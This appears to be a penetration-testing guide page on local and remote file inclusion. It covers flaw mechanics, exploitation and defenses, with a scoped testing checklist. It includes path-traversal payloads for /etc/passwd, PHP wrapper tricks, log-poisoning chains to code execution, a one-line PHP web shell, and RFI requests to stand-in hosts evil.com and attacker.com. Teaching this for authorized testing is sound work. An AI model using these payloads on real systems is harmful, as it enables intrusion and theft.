

# LFI / RFI

Local and remote file inclusion testing.

## Overview Diagram

Visual summary of the **attack/data flow** and the **five-phase testing workflow** for this topic.

### Attack / Data Flow

<div class="sr-diagram" markdown="1">

```mermaid
flowchart TD
    PARAM[File parameter] --> LFI{Local or remote?}
    LFI -->|local| READ[/etc/passwd, configs]
    LFI -->|remote| RFI[Host malicious PHP]
    READ --> ESC[Log poison / RCE chain]
    RFI --> SHELL[Web shell]
classDef attacker fill:#ef4444,stroke:#b91c1c,color:#fff
classDef target fill:#6c3ce0,stroke:#5429c4,color:#fff
classDef tool fill:#f59e0b,stroke:#d97706,color:#1a1a1a
classDef success fill:#10b981,stroke:#059669,color:#fff
classDef warn fill:#f97316,stroke:#ea580c,color:#fff

```

</div>

### Testing Workflow

<div class="sr-diagram sr-diagram-methodology" markdown="1">



</div>

## How It Works

Local File Inclusion (LFI) and Remote File Inclusion (RFI) arise when applications include or read files based on user-controlled paths without strict validation.

**LFI**: Attacker includes files on the server filesystem—configuration files, source code, logs, `/etc/passwd`—via path traversal:

```
?page=../../../etc/passwd
?page=....//....//etc/passwd
```

**RFI**: Attacker supplies a remote URL so the server fetches and executes attacker-controlled code (common in legacy PHP `include($_GET['page'])`):

```
?page=http://evil.com/shell.txt
```

PHP wrappers extend LFI impact:

- `php://filter/convert.base64-encode/resource=index.php` (source disclosure)
- `php://input` with POST body (code execution in some configs)
- `expect://id` when `expect` wrapper enabled

Log poisoning and `/proc/self/environ` techniques turn LFI into RCE by injecting PHP into access logs then including the log file.

## Exploitation

**LFI enumeration**

1. Identify parameters: `file`, `page`, `template`, `lang`, `document`.
2. Test traversal: `../../../../etc/passwd`, encoded variants (`%2e%2e%2f`).
3. Null byte `%00` on legacy PHP versions to truncate extensions: `shell.php%00`.

**PHP source extraction**

```
php://filter/convert.base64-encode/resource=../config.php
```

**RFI proof**

Host a text file on your server:

```php
<?php system($_GET['cmd']); ?>
```

Request: `?page=http://attacker.com/shell.txt`

**Log poisoning flow**

1. Poison Apache/Nginx log with PHP in User-Agent or request path.
2. Include log path: `/var/log/apache2/access.log` via LFI.
3. Execute commands via appended query parameters.

**Attack flow**

```
Path parameter → include()/read() → arbitrary local file or remote URL → info leak → RCE
```

## Defense & Mitigation

**Eliminate user-controlled file paths**. Map allowed pages to an allow-list:

```python
PAGES = {"home": "home.php", "about": "about.php"}
include(PAGES.get(page, "home.php"))
```

**Path canonicalization**

- Resolve paths with `realpath()` and verify result stays within intended directory.
- Reject `..`, absolute paths, and URL schemes (`http://`, `php://`).

**Configuration**

- Disable `allow_url_include` in PHP.
- Run apps with read-only filesystem where possible; no write access to web logs from untrusted input.

**WAF/rules**: Block traversal sequences as secondary control only.

**Monitoring**: Alert on repeated `%2e%2e` patterns and wrapper scheme usage in parameters.

## Pro Tips

Practical advice from real engagements — use these to test faster and report better.

!!! tip "php://filter trick"
    `php://filter/convert.base64-encode/resource=index.php` reads source without execution.

!!! tip "Double encoding"
    Try `..%252f..%252f` when `../` is stripped once.

!!! tip "Log poisoning"
    Poison User-Agent in access log, then LFI `/var/log/apache2/access.log` for RCE.

!!! tip "Wrapper enumeration"
    `php://`, `zip://`, `data://`, `expect://` — fuzz wrappers per language.

!!! tip "RFI needs allow_url_include"
    RFI is rare on modern PHP — focus on LFI + log/session poisoning chains.

## Testing Methodology

Work through each phase in order. Every step has a checkbox — complete them all for thorough, reproducible coverage.

### Phase 1 — Preparation & Scoping

- [ ] Confirm target is in program scope and ROE allows this test type
- [ ] Set up isolated lab or proxy (Burp/ZAP) with scope filters
- [ ] Document baseline application behavior and account roles
- [ ] Identify test accounts for each privilege level
- [ ] Find file inclusion parameters: `file=`, `page=`, `template=`, `lang=`

### Phase 2 — Discovery & Mapping

- [ ] Enumerate path traversal: `../../../etc/passwd`, `....//....//etc/passwd`
- [ ] Test PHP wrappers: `php://filter/convert.base64-encode/resource=index`
- [ ] Check for RFI by pointing to attacker-hosted file
- [ ] Identify OS from path syntax and error messages

### Phase 3 — Validation & Testing

- [ ] Confirm local file read with known files (`/etc/passwd`, `win.ini`)
- [ ] Bypass filters: null byte (legacy), encoding, double traversal
- [ ] Read source code via wrapper filters
- [ ] Validate RFI only in controlled lab with your server

### Phase 4 — Exploitation & Impact Proof

- [ ] Chain LFI to RCE via log poisoning or `/proc/self/environ`
- [ ] Demonstrate minimal file read as proof
- [ ] Document exact parameter and traversal depth
- [ ] Test upload + include chains if applicable

### Phase 5 — Documentation & Reporting

- [ ] Write step-by-step reproduction with HTTP requests/responses
- [ ] Capture screenshots or video showing impact (redact sensitive data)
- [ ] Rate severity using program CVSS or impact matrix
- [ ] Provide concrete remediation guidance for developers
- [ ] Retest after fix if program allows verification
- [ ] Recommend allow-list file paths and disable remote includes

## Tools

| Tool | Usage |
|------|-------|
| `ffuf` | [Web fuzzer](../../TOOLS_GUIDE.md#ffuf) |
| `burp` | [Intercept, repeater & scanner](../../TOOLS_GUIDE.md#burp-suite) |
| `lfi-suite` | [LFI exploitation](../../TOOLS_GUIDE.md#lfi-suite) |

## Resources

- [PayloadsAllTheThings LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [PortSwigger File Path Traversal](https://portswigger.net/web-security/file-path-traversal)

## Verification Checklist

- [ ] Review scope and rules of engagement
- [ ] Document baseline behavior
- [ ] Test edge cases and parser differentials
- [ ] Capture proof-of-concept safely
- [ ] Write remediation guidance
